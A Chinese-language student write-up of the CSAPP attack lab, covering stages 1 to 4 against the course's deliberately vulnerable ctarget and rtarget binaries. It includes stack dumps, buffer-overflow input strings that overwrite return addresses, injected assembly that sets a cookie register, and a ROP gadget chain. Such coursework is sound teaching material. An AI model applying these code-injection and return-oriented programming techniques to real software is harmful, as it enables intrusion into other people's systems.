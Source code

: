 # CSAPP-LAB3
``attack``
通过objdump -d进行反汇编代码，通过gdb进行调试
## stage1
本题通过getbuf读取字符到栈上，从而修改返回地址
调用getbuf之前的栈为，00401976即是返回地址
```
0x5561dc78:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc88:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc98:	0x55586000	0x00000000	0x00401976	0x00000000
0x5561dca8:	0x00000002	0x00000000	0x00401f24	0x00000000
0x5561dcb8:	0x00000000	0x00000000	0xf4f4f4f4	0xf4f4f4f4
```
我们通过输入字符串，将栈刷掉，使得返回地址为 004017c0，即为touch1的入口地址
```
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
c0 17 40 00
```
getbuf返回之后的栈为
```
0x5561dc78:	0xf0c1c748	0x13004011	0x00000000	0x00000000
0x5561dc88:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc98:	0x00000000	0x00000000	0x004017c0	0x00000000
0x5561dca8:	0x00000002	0x00000000	0x00401f24	0x00000000
0x5561dcb8:	0x00000000	0x00000000	0xf4f4f4f4	0xf4f4f4f4
```

## stage2
这一题较上一题的不同是 在跳转到touch2之前需要将edi的值修改成cookie的值
如何做困扰我很久，后来参考了csdn的解答才有了思路，我们可以通过修改栈的值来使得返回时跳到另一个位置，通过这个机制，我们能跳到插入代码的位置，插入代码保存在哪里，当然最为保险的还是保存在栈上，另一个问题是如何修改edi之后继续跳转，解决方法还是类似，在栈上插入一条目标地址，然后使用ret即可，这两个操作也是包括在插入的代码中。
下面列出插入的代码
```
movl    $0x59b997fa,%edi
pushq   $0x4017ec  ## touch2函数的入口地址
ret
```
最初栈的返回地址需要是插入代码的起始地址

## stage3
这一题在上一题的基础上，加入了赋值字符串，我们需要将字符串保存到一个位置，然后将其赋值给edi，
字符串保存的位置是本题的关键，在这个上面我卡了一个多小时，一个核心就是在进行push和ret的时候$rsp会覆盖栈上原来的内容，因此我们需要将字符串保存到一个不会被覆盖的地方
经过测试0x5561dca8之前大约100多个字节都是不可靠的地址，它们都会被覆盖掉，因此我们最终将字符串保存到0x5561dcb0这个位置
```
movl    $0x5561dcb0,%edi
pushq   $0x4018fa
ret
```

之前都是通过代码插入来实现攻击，这种方法在rtarget程序这是行不通的，因为它
> 1. 栈的位置是随机的
> 2. 栈上的代码是不可执行的，即使是gdb都无法查看栈上的内容
以下两题我们使用跳转到现成的代码区（即gadget）来实现攻击
## stage4
在这一题中我们通过两个gadget来实现两条指令
```
popq $rax # 将栈中的cookie值pop到rax
mov $rax $rdi # 将rax的值赋给rdi
```
为啥不直接用popq $rdi，一开始我也很困惑，后来发现跟popq指令相关的只有0x58（即popq $rax），注意popq后面只能跟0x90(nop)或0xc3(ret)
最终填充的代码如下，需要注意的是$esp的值在ret或pop之后会增加，因此需要在后面添加填充代码
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
ab 19 40 00 00 00 00 00 # 跳转到一个gadget
fa 97 b9 59 00 00 00 00 # cookie
a2 19 40 00 00 00 00 00 # 跳转到另一个gadget
ec 17 40 00 00 00 00 00 # 跳转到touch2
```

## stage5
这次依旧偷个懒跳过，嘻嘻